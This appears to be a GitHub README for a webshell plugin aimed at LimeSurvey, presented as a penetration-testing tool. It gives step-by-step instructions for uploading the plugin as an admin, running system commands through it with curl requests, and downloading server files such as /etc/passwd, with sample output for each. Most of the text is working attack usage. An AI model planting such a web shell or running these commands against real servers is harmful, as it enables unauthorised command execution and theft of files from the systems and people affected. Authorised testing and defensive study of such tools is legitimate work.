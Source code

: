 # LimeSurvey webshell plugin for RCE

<p align="center">
    A webshell plugin and interactive shell for pentesting a LimeSurvey application.
    <br>
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/LimeSurvey-plugin-webshell">
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
    <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
    <br>
</p>

## Features

 - [x] Webshell plugin for LimeSurvey.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine `?action=download`.

## Usage

**Requirements**: You need to have the credentials of the `admin` account of the LimeSurvey instance.

### Step 1: Upload the webshell plugin

Go to "Configuration --> plugins" page, at http://localhost:10080/index.php/admin/pluginmanager/sa/index, and click on "Upload & install":

![](./.github/upload_and_install.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.01/upload/plugins/WebShell/webshell.php with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://localhost:10080/upload/plugins/WebShell/webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser:

![](./.github/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://localhost:10080/upload/plugins/WebShell/webshell.php with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1/upload/plugins/WebShell/webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```


### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/163652719-eb16acba-6e2c-47a2-bc52-21ceff24dc09.mp4

## References
 - https://manual.limesurvey.org/Plugin_autoactivation
